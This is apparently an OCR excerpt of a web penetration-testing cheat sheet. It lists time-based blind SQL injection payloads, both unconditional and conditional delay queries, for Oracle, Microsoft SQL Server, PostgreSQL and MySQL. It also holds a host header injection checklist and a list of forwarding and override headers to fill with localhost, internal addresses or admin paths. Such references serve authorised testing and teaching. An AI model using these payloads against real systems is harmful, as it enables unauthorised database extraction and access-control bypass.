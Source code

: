         ```markup
              Oracle 	      dbms_pipe.receive_message(('a'),10)
        
              Microsoft 	  WAITFOR DELAY '0:0:10'
        
              PostgreSQL 	  SELECT pg_sleep(10)
        
              MySQL 	      SELECT sleep(10)
        
        ```
        
    - Conditional Delays
        
        ```markup
              Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
        
              Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
        
              PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
        
              MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
        
        ```
        
- HTTP header injection in GET & POST (X Forwarded Host)
    - Host Header Injection
        - [ ]  Supply an arbitrary Host header
        - [ ]  Check for flawed validation
        - Send ambiguous requests
            - [ ]  Inject duplicate Host headers
            - [ ]  Supply an absolute URL
            - [ ]  Add line wrapping
        - [ ]  Inject host override headers
    
    ```jsx
    # Add something like 127.0.0.1, localhost, 192.168.1.2, target.com or /admin, /console
    Client-IP:
    Connection:
    Contact:
    Forwarded:
    From:
    Host:
    Origin:
    Referer:
    True-Client-IP:
    X-Client-IP:
    X-Custom-IP-Authorization:
    X-Forward-For:
    X-Forwarded-For:
    X-Forwarded-Host:
    X-Forwarded-Server:
    X-Host:
    X-Original-URL:
    X-Originating-IP:
    X-Real-IP:
    X-Remote-Addr:
    X-Remote-IP:
    X-Rewrite-URL:
    X-Wap-Profile:
    
